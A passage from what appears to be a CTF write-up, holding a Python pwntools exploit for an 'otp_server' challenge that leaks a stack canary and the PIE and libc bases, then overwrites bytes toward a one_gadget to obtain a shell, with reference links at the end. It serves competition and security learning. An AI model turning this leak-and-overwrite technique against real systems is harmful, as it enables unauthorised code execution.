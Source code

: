 ```python
i+=1
#print i
enc("A"*0x100)
p.readuntil("--\n")
tmp=p.read(4)
res=""
for x in tmp:
res+=chr(ord(x)^0xff)
res=u32(res)
res=res>>24
if ((res&0xff)==data):
return    

libc=ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
p=process('./otp_server')
#p=remote("challenges3.fbctf.com",1338)
key("\xff"*0xe0)
enc("A"*0x100)
p.readuntil("--\n")
p.read(0x108)
canary=u64(p.read(8))
pie=u64(p.read(8))-0xdd0
base=u64(p.read(8))-(0x7ffff7a05b97-0x7ffff79e4000)
p.read(8)
stack=u64(p.read(8))
#log.warning(hex(canary))

log.warning(hex(base))
libc.address=base
one=0x10a38c+base
one=0xffffff&one
log.success(hex(one))

fill(3,((one>>16)&0xff))
fill(2,((one>>8)&0xff))
fill(1,(one&0xff))


gdb.attach(p,'''
b *0x555555554dcc
''')

context.log_level='debug'
cmd(3)

p.interactive()
```



[1]: http://cenalulu.github.io/linux/about-denormalized-float-number/
[2]: https://www.h-schmidt.net/FloatConverter/IEEE754.html
[3]: https://github.com/R3t-team/R3t-team
